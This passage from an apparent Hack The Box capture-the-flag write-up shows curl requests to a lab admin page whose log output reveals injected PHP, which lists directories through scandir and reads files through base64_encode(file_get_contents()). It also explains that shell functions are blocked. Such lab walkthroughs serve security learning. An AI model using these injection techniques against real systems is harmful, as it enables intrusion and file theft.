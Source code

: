 ```bash
➜  HACKBACK curl -X GET 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=972d14b51c047ebff05b7eb1d1acff3d5989bac8407b45e28013a3584834270b'
[15 April 2020, 08:07:44 PM] 10.10.14.37 - Username: farbs@hackback.htb, Password: ilovehacking!
[15 April 2020, 08:15:27 PM] 10.10.14.37 - Username: Farbs was here!, Password: Farbs was here!
```
The PHP appeared to have ran successfully! However, this is where everything started to get a bit hairy... I struggled to get any kind of shell back using `shell_exec, exec`, etc. and couldn't even run `phpinfo`. I was still able to list directories, as well as utilize php wrapper syntax such as `base64_encode(file_get_contents())`.
<p><br></p>
Running `scandir` proved to be quite useful, however, as I was able to view directory contents still.

<img src="/assets/img/writeups/HTB-HACKBACK/HACKBACK-SCANDIR-C1.PNG" class="hackback-img" alt="Hackback - HTB Login scandir() Initial Directory">

```bash
➜  HACKBACK curl -X GET 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=972d14b51c047ebff05b7eb1d1acff3d5989bac8407b45e28013a3584834270b'
[15 April 2020, 08:07:44 PM] 10.10.14.37 - Username: farbs@hackback.htb, Password: ilovehacking!
[15 April 2020, 08:15:27 PM] 10.10.14.37 - Username: Farbs was here!, Password: Farbs was here![15 April 2020, 08:27:02 PM] 10.10.14.37 - Username: Array
(
    [0] => .
    [1] => ..
    [2] => index.html
    [3] => webadmin.php
)
, Password: // this is just a comment
```